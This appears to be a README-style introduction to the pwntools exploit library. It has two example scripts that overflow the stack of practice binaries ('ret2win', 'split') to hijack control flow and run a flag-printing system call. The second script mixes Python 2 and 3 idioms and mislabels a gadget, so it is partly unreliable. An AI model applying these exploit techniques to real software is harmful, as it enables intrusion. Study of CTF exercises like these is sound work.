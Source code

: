 Pwntools is a Python library that provides a set of utilities for developing exploits for binary programs. It simplifies the task of writing exploits by providing a set of powerful tools for working with low-level programming constructs, such as sockets, processes, and files.

Here are some basic things to know about pwntools:

- Pwntools provides a set of powerful tools for working with binary programs, including remote and local exploitation.
- It provides a simplified interface for interacting with low-level programming constructs, such as sockets and processes.
- It includes support for common exploit techniques, such as heap and stack spraying, shellcode injection, and return-oriented programming (ROP).
- It has a built-in ELF parser, which allows for easy inspection of binary files.
- Pwntools can be used with both Python 2 and Python 3.
- It provides a number of useful utilities, such as hexdump and cyclic, for working with binary data.
- Pwntools can be installed using pip or downloaded from the GitHub repository.

Here are some example use cases for pwntools:

- Writing a simple buffer overflow exploit for a binary program.
- Developing a remote exploit to exploit a network service running on a target machine.
- Building a payload to inject shellcode into a vulnerable program.
- Using ROP to bypass address space layout randomization (ASLR) and execute arbitrary code.

{Example code 1}

~~~
from pwn import *

# Connect to the target binary
p = process('./ret2win')

# Find the offset to overwrite the return address
offset = cyclic_find('faaagaaa')

# Craft the payload to overwrite the return address with the address of the ret2win function
payload = b'A' * offset
payload += p64(0x00400811)

# Send the payload to the binary
p.sendline(payload)

# Receive the output from the binary
output = p.recvall().decode('utf-8')

# Print the output
print(output)

~~~

{Example code 2}
~~~
from pwn import *

# create a process object and load the executable binary
p = process('./split')

# create an ELF object to parse the binary and retrieve useful information
elf = ELF('./split', checksec=False)

# determine the offset to the return address on the stack
offset = 40

# retrieve the addresses of the desired functions/strings using the ELF object
ret_address = 0x00000000004007c3
cat_flag_address = elf.search('/bin/cat flag.txt').next()
system_address = elf.plt.system

# display the retrieved addresses
info('cat_flag_address : {}'.format(hex(cat_flag_address)))
info('system_address: {}'.format(hex(system_address)))

# construct the payload by padding the offset with arbitrary characters
# then appending the address of the return instruction and the address of the system call with the argument of the flag file
payload = 'A' * offset + p64(ret_address) + p64(cat_flag_address) + p64(system_address)

# send the payload to the process and read the result
p.sendline(payload)
p.recvuntil('Thank you!')
result = p.recvall().strip('\n')

# print the result of executing the payload
success(result)
~~~
